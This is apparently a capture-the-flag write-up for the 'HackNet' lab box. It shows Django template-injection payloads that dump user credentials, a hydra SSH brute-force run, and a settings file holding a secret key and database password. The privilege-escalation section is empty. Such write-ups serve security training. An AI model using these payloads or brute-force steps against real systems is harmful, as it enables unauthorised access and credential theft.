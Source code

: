 ```yaml
---
layout: default
title: HackNet
---
```


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```

![nmap results](image.png)

we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to `{{7*7}}`

![edit profile first](image-1.png)

Then, i want to http://hacknet.htb/explore, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.

![something went wrong](image-2.png)

I tried different payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python, to detect exactly what is the framework behind the scenes.

![payload all the things](image-3.png)

I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.

![SSTI django](image-4.png)

The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: `{{ users }}`:

I got back this response:

![response](image-5.png)

Which after html decoding gave me:
```py
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using `{{ users.values }}`:

I got this long response:

![get users.values](image-6.png)

Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 27, 'email': 'dindon@dind.on', 'username': '{{ users.values }}', 'password': 'dindon', 'picture': 'profile.png', 'about': '{{ 7*7 }} {% debug %} ${8*8}', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py
{% include_relative dump_credentials.py  %}
```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`

![ssh successful](image-7.png)

get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### ...... ?????

Inside `/var/www/HackNet/HackNet/settings.py`

I found this 
```py
SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'
```

and also this
```py
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}
```

Then i connect using `mysql` (show command), and fetch table from hacknet db auth_users, get hash and trying to crack him (not working bro).

### Privilege Escalation to Root


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
